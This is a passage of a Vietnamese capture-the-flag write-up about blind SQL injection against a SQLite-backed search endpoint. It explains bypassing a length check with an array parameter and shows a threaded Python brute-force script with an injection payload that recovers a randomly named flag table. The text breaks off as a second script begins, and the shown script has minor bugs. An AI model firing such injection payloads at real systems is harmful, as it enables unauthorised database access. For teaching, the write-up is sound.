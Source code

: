 ```javascript
            console.error(err.message);
            return res.status(500).send('Hey, what r u doing??? i will call police or don\'t hack this machine');
        }

        return res.send(rows);
    });
```
Server sẽ kiểm tra length của `?name`, ta có thể bypass bằng cách truyền vào array object thay vì chuỗi thông thường.
`?name[]=` là array khi truyền vào có 1 phần tử nên length sẽ chỉ trả về `1`. 
<br />Ban đầu mình nghĩ đây là bài SQLi bình thường, tìm cách để server trả về flag từ table. Nhưng do filter đã chặn `UNION` và `||` nên mình nghĩ tới hướng blind sql.
Đầu tiên là cần có được tên của flag table. Table được sinh ngẫu nhiên với `uuid.v4()`, đoạn này chỉ bao gồm các kí tự `[a-f0-9]`
Table sẽ có tên dạng `flag_????????_????_????_????_????????????` trong đó `?` là các kí tự cần tìm. Giờ chỉ cần bruteforce

Sau khi chạy xong sẽ ra table là `flag_c1abd148_acae_40be_a953_eae333f90da0`. Ta lại bruteforce tiếp để tìm flag
::::code-group
 :::code-group-item getTableName.py
```python
import requests
from threading import Thread

"""
Payload: ?name[]=1' AND (SELECT hex(tbl_name) FROM sqlite_master WHERE type LIKE 'table' and tbl_name like '{}%' limit 1 offset 0) > '0';--
  - {} is table name
  - Server will return [] if table name is not exist
"""

URL = "http://45.122.249.68:20020/search?name[]=1'+AND+(SELECT+hex(tbl_name)+FROM+sqlite_master+WHERE+type+LIKE+'table'+and+tbl_name+like+'{}%25'+limit+1+offset+0)+>+'0'%3b--"
CHARS = '09123456789abcdef'
table = ['f', 'l', 'a', 'g', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_', '_']

def check(index):
    currentTable = [*table]
    for char in chars:
        currentTable[index] = char
        r = requests.get(url=URL.format(''.join(currentTable)))

        if (r.text != "[]"):
            table[index] = char
            print(table)
            return

if __name__ == "__main__":
    for i in range(5, len(table)):
        # Skip default '_' character
        if (i in [13, 18, 23, 28]): continue
        Thread(target=lambda: check(i)).start()
```
 :::
 :::code-group-item getFlag.py
```python
import requests
from threading import Thread

"""
```